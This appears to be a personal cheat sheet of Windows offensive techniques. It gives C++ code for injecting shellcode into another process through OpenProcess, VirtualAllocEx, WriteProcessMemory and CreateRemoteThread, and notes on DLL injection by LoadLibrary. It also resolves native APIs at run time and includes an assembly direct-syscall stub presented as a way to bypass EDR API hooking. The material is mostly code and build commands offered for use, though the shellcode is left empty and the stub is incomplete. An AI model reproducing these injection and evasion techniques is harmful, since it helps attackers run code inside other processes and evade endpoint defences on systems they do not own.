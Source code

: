 # Windows 
### Injection and Hijacking

### Win APi Functions

```cpp
OpenProcess ()

VirtualAllocEx ()

WriteProcessMemory()

CreateRemoteThread()
```

### Inject thread 


```cpp
#include <windows.h>
#include <processthreadsapi.h>

int main() {

    HANDLE hProcess, hThread;
    LPVOID start_ptr;
    DWORD tid;
    size_t written;

    char shellcode[] = {

    };
    start_ptr = (LPVOID) 0x13370000;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2676);

    start_ptr = VirtualAllocEx(hProcess, start_ptr, 0x1000,  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, start_ptr, shellcode, 256, &written);

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)start_ptr, NULL, 0, &tid);

}

```


### without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```
typedef NTSTATUS (NTAPI *NtCreateFile_t)(
    PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK,
    PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG
);
GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
```


```cpp
    execMem = VirtualAlloc(NULL, sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(execMem, code, sizeof(code));
    f = (Func)execMem;
    f(&hPipe);
```
## Bypassing EDR API Hooking 

### inject inline asm with naked function

    Note: When preparing for system call, windows move rcx (first arg) into r10 as rcx will be use to store the return address and r10 now represent the first argument . rax still stores the system call number

```asm
; syscall.asm

.code
public MyNakedFunction

MyNakedFunction proc
    mov r10, rcx        ; Windows x64 ABI requires syscall target in R10
    mov eax, 0c4h       ; 
    ret
MyNakedFunction endp

end
```
assemble

```
ml64 /c /Fo syscall.obj syscall.asm 
```

then in your cpp
```cpp
extern "C" int MyNakedFunction(HANDLE *); 
```

compile with 
```
cl /O2 windows.cpp syscall.obj
```
